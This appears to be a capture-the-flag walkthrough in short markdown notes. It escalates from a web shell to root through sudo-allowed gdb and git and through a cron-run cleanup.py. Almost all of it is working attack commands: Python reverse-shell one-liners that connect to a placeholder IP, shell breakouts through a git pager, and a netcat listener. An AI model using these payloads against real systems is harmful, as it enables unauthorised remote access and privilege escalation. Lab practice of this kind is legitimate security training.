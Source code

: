 ### Gain a stable shell instead of php-reverse-shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### Horizontal Privilege Escalation
```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

### sudo -l again
```
(d4rckh) NOPASSWD: /usr/bin/git
```

### Horizontal Privilege Escalation again
```
PAGER='sh -c "exec sh 0<&1"' sudo -u d4rckh /usr/bin/git -p help
!/bin/sh
```
alternatively, try this
```
sudo -u d4rckh /usrbin/git help cofig
```

### Confirm the successful
python -c 'import pty; pty.spawn("/bin/bash")'

### Check the cleanup.py
```
cat /etc/crontab
```
it's run every 2 minutes

### Done and done (All those above escalations are somewhat redundant since not only d4rckh can edit)
```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4567));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > cleanup.py

nc -lnvp 4567
```
